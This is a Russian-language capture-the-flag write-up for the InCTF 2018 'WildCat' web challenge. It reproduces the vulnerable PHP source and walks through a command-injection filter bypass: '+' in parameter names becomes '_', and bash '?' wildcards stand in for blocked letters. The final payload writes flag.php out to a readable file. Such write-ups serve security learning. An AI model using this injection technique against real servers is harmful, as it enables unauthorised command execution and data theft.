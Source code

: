 # Writeup WildCat (InCTF 2018)


## Первый раз

Код страницы с http://18.191.205.153/

```
<img src='cat.jpg' height=400><!-- is_debug -->
```
Ничего особенного кроме "is_debug" - спасибо `Daniil159x`

## Собираем информацию о сервере

Смотрим заголовки ответа от сервера

1. Делаем кривой запрос через nc

```
$ nc 18.191.205.153 80
```
Тут вводим следующее
```
GET / HTTP/1.1
```
И жмем enter
```
HTTP/1.1 400 Bad Request
Date: Sun, 07 Oct 2018 12:46:21 GMT
Server: Apache/2.4.25 (Debian)
Content-Length: 302
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 172.17.0.2 Port 80</address>
</body></html>
```
В заголовках ответа видим `Apache/2.4.25 (Debian)` - то есть запущено под Apache на Debian


## По методу от Daniil159x

http://18.191.205.153/?is_debug

Видимо

```
<?php
error_reporting(0);
include('flag.php');
$message = "<img src='cat.jpg' height=400><!-- is_debug -->";

if (isset($_GET['is_debug']))
    {
    highlight_file(__FILE__) and die();
    }
  else
    {
    $qs = $_SERVER['QUERY_STRING'];
    if(!(substr_count($qs, '_') > 0) && !(substr_count($qs, '%')> 1))
        {
            $cmd = $_GET['c_m_d'];
            if(!preg_match('/[a-z0-9]/is', $cmd)){
                system("/sandboxed_bin/".$cmd);
            }else{
                echo $message;
                die();
            }
        }
    echo $message;
        die();
    }
?>

```

## После долго изучения

Понимаем что нужно каким то образом прописать параметр странице /?c_m_d=bash_command
1. QUERY_STRING не должна содержать символ '_' и более одного '%'
2. bash_command не должна содержани ни a-z ни 0-9 (проверяется на preg_match)
Если пройти эти условия то bash_command будет выполнена


## Обходим 1-ую проблему

Знание: Пробел " " можно заменить на "+" или на "%20" (что делает обычно браузер)

Где то в пхп есть обработчик (конвертор) имен параметров get (наш `c_m_d`), который не любит пробелы в именах параметров и меняет их на "_". То есть если мы напишем `/?c+m+d=` то мы пройдем первое условие а парсер GET параметров переведет его из `c+m+d` вначале в `c m d` а потом в `c_m_d` и к моменту выполнения кода на этой строке: `$cmd = $_GET['c_m_d'];` все будет ок.

## Обходим 2-ую проблему

### Время справки
WildCat как оказалось отсылка к WildCards (Почитать можно если в поисковой системе набрать `bash wildcards`)

Смысл очень простой:

* `*` - символ означающий любое количество любых символов
* `?` - один любой сивол

Если попробовать выполнить в вашей домашней директории команду 

```
$ .*
bash: .: ..: это каталог
```
*Ха-ха... баш нашел '..' и сказал что нельзя выполнить это так как это каталог*

### Вернемся к заданию

Вообщем нам нельзя передавать в `c_m_d` ничего вразумительного...
нас останавливает вот эта вот строка `if(!preg_match('/[a-z0-9]/is', $cmd)){`

И еще выполняется будет программа которая которая лежит в каталоге "/sandboxed_bin/" (См  *system("/sandboxed_bin/".$cmd);*)

Предположим что там есть `cat` а вывести мы хотим `flag.php` и желательно куда нить в файл `> .$` где `.$` имя файла

Тогда это будет так: 
`/sandboxed_bin/cat flag.php > .$`

То есть GET-запрос передать нужно так:

`/?c+m+d=cat+flag.php+>+.$`

Но символы использовать нельзя поэтому меняем все символы на знак `?` (см wildcards):

`/?c+m+d=???+????.???+>+.$`

Выполняем:

`http://18.191.205.153/?c+m+d=???+????.???+%3E+.$`

И запрашиваем файл:

`http://18.191.205.153/.$`

Нам вернется содержимое файла `flag.php` записанный в `.$`.
Так как `.$` без расширения `.php` он сервером интерпретироваться не будет и вернятся как есть:

```
<?php
$flag = "inctf{PhP_TriCk_wIth_wiLdC@rd_byPa$$}";
?>
```

## Флаг сдан

Спасибо.






